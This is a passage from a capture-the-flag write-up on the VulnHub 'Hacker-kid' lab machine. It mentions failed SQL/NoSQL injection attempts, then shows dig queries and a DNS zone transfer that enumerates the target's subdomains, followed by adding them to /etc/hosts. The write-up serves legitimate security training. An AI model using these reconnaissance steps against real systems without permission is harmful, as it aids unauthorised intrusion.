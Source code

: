
![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/VulnHub/Hacker-kid:1.0.1/images/Pasted%20image%2020230817163525.png)

Hmm... Something wrong with my data??

I also tried authentication bypass via SQL/NoSQL injection, but no dice.

## Initial Foothold

Let's take a step back.

Since we found a domain via the `page_no` GET parameter, and a hint "DIG" in the index page of TCP port 80, we can try to query records from the DNS server.

**To do so, we can use a tool called `dig`:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|17:13:22(HKT)]
└> dig -t ANY blackhat.local @$RHOSTS
[...]
;; ANSWER SECTION:
blackhat.local.		10800	IN	SOA	blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
blackhat.local.		10800	IN	NS	ns1.blackhat.local.
blackhat.local.		10800	IN	MX	10 mail.blackhat.local.
blackhat.local.		10800	IN	A	192.168.14.143

;; ADDITIONAL SECTION:
ns1.blackhat.local.	10800	IN	A	192.168.14.143
mail.blackhat.local.	10800	IN	A	192.168.14.143
[...]
```

Oh! We found some DNS records!

**Try DNS zone transfer:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|17:15:03(HKT)]
└> dig -t AXFR blackhat.local @$RHOSTS
[...]
blackhat.local.		10800	IN	SOA	blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
blackhat.local.		10800	IN	NS	ns1.blackhat.local.
blackhat.local.		10800	IN	MX	10 mail.blackhat.local.
blackhat.local.		10800	IN	A	192.168.14.143
ftp.blackhat.local.	10800	IN	CNAME	blackhat.local.
hacker.blackhat.local.	10800	IN	CNAME	hacker.blackhat.local.blackhat.local.
mail.blackhat.local.	10800	IN	A	192.168.14.143
ns1.blackhat.local.	10800	IN	A	192.168.14.143
ns2.blackhat.local.	10800	IN	A	192.168.14.143
www.blackhat.local.	10800	IN	CNAME	blackhat.local.
blackhat.local.		10800	IN	SOA	blackhat.local. hackerkid.blackhat.local. 1 10800 3600 604800 3600
[...]
```

> DNS zone transfer is a vulnerability that allows attackers to query enumerate the entire domain's DNS records.

**Nice! Let's add those subdomains to `/etc/hosts`:**
```shell
┌[siunam♥Mercury]-(~/ctf/VulnHub/Hacker-kid:1.0.1)-[2023.08.17|17:16:51(HKT)]
└> echo "$RHOSTS blackhat.local hacker.blackhat.local hackerkid.blackhat.local" | sudo tee -a /etc/hosts
10.69.96.74 blackhat.local hacker.blackhat.local hackerkid.blackhat.local
```

**`hacker.blackhat.local`:**
